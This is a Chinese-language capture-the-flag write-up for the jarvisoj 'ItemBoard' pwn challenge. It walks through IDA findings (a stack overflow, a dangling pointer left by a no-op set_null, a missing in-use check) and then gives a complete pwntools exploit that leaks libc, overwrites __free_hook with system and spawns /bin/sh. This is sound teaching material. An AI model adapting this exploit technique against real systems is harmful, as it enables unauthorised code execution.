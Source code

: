 ```yaml
---
layout:     post
title:      jarvisoj ItemBoard
author:     wooy0ung
tags: 		pwn
category:  	writeup
---
```



>Problem Address:  
>https://www.jarvisoj.com  
>  
>Address:  
>nc pwn2.jarvisoj.com 9887  
<!-- more -->


### 0x00 IDA分析

拿到题目, 先运行一遍, 发现是一个物品清单类的小程序

![](/assets/img/writeup/pwn/2017-08-05-jarvisoj-itemboard/0x00.png)

拖到IDA分析, 定位到 new_item 方法, 此处存在 stack overflow 漏洞

![](/assets/img/writeup/pwn/2017-08-05-jarvisoj-itemboard/0x01.png)

再看看栈布局, item 处是一个 buf_ptr, 溢出到这里后可以控制该指针实现任意写

![](/assets/img/writeup/pwn/2017-08-05-jarvisoj-itemboard/0x02.png)

检查 remove_item 方法是否对指针置0

![](/assets/img/writeup/pwn/2017-08-05-jarvisoj-itemboard/0x03.png)

跟进 set_null 方法, 发现这个函数不起任何作用

![](/assets/img/writeup/pwn/2017-08-05-jarvisoj-itemboard/0x04.png)

这里其实是IDA优化过, 我们再看看汇编, 确实不能置0指针

![](/assets/img/writeup/pwn/2017-08-05-jarvisoj-itemboard/0x05.png)

而且 show_item 方法没有检查 inuse位, 结合 remove_item 处漏洞可以 leak libc_base

![](/assets/img/writeup/pwn/2017-08-05-jarvisoj-itemboard/0x06.png)


###  0x01 exploit

```
#!/usr/bin/python
# -*- coding:utf8 -*-

from pwn import *

Io = remote("pwn2.jarvisoj.com", 9887)
#Io = process('./itemboard')
bin = ELF('./itemboard')
libc = ELF('./libc-2.19.so')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def new_item(name, length, content):
    Io.recvuntil('choose:')
    Io.sendline('1')
    Io.recvuntil('Item name?')
    Io.sendline(name)
    Io.recvuntil('len?')
    Io.sendline(str(length))
    Io.recvuntil('Description?')
    Io.sendline(content)
def show_item(num):
    Io.recvuntil('choose:')
    Io.sendline('3')
    Io.recvuntil('Which item?')
    Io.sendline(str(num))
    Io.recvuntil('Description:')
def remove_item(num):
    Io.recvuntil('choose:')
    Io.sendline('4')
    Io.recvuntil('Which item?')
    Io.sendline(str(num))

#------------------leak libc_base----------------
new_item('0',0x80,'A')
new_item('1',0x80,'B')
remove_item(0)

show_item(0)
leak_data = u64(Io.recv(6).ljust(8,'\x00'))
libc_base = leak_data - 0x3BE7B8
free_hook_ptr = libc_base + 0x3BDEE8
#libc_base = data-0x3c4b78
#free_hook_ptr = libc_base + 0x3C3EF8
system = libc_base + libc.symbols['system']
success("libc_base: " + hex(libc_base))
success("free_hook_ptr: " + hex(free_hook_ptr))
success("system: " + hex(system))

#------------------hijack & write------------------
payload = p64(system)
payload += 'a'*(1024 + 8-len(payload))
payload += p64(free_hook_ptr-8) # 将 system_addr 写进 free_hook_str

new_item('/bin/sh\x00',len(payload),payload)
remove_item(2) # 相当于调用 system('/bin/sh')

Io.interactive()
```

getshell

![](/assets/img/writeup/pwn/2017-08-05-jarvisoj-itemboard/0x07.png)